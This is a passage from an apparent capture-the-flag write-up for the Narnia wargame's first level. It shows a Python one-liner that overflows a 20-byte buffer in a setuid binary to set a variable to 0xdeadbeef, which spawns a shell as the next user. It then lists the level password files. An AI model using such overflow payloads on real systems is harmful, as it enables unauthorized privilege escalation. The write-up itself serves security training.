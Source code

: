 ```bash
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found

```
Getting interactive through `cat`:

```bash
narnia0@narnia:~$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
whoami
narnia1

```

It seems privileges have been raised narnia1. Now it's time to find the password for the next level:
```bash
narnia0@narnia:/narnia$ cd /
narnia0@narnia:/$ du -a|grep narnia
du: cannot read directory './etc/ssl/private': Permission denied
4	./etc/narnia_pass/narnia5
4	./etc/narnia_pass/narnia6
4	./etc/narnia_pass/narnia7
4	./etc/narnia_pass/narnia0
4	./etc/narnia_pass/narnia4
4	./etc/narnia_pass/narnia1
4	./etc/narnia_pass/narnia9
4	./etc/narnia_pass/narnia2
4	./etc/narnia_pass/narnia3
4	./etc/narnia_pass/narnia8
44	./etc/narnia_pass
du: cannot read directory './etc/polkit-1/localauthority': Permission denied
du: cannot read directory './run/lxcfs': Permission denied
du: cannot read directory './run/user/14002': Permission denied
du: cannot read directory './run/user/14001': Permission denied
du: cannot read directory './run/user/14006': Permission denied
du: cannot read directory './run/user/14008': Permission denied
du: cannot read directory './run/user/14007': Permission denied
du: cannot read directory './run/sudo': Permission denied
du: cannot read directory './run/log/journal/0d8e66480c320675a338622759f86ace': Permission denied
du: cannot read directory './run/lvm': Permission denied
du: cannot read directory './run/systemd/inaccessible': Permission denied
du: cannot read directory './run/lock/lvm': Permission denied
du: cannot read directory './dev/mqueue': Permission denied
```
